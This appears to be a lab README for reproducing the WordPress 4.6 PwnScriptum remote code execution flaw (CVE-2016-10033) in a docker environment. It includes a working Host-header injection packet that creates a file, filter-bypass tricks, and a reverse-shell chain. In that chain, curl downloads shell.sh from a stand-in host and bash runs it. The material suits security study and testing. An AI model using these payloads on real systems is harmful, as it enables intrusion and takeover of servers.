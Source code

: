# Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker compose build
docker compose up -d
```

Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit `http://your-ip:8080/`, set the administrator username and password to use it (the database is configured and not automatically updated).

## Exploit

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with $`substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log} }` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the expliot process is follows:

- Write the exp of reverse shell and put it on a site. The exp have this following requirements:
  - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
  - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).
- Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.
- Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.
- Produce the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.
- Send these two packets in order.

Here is [expliot.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:

![](1.png)

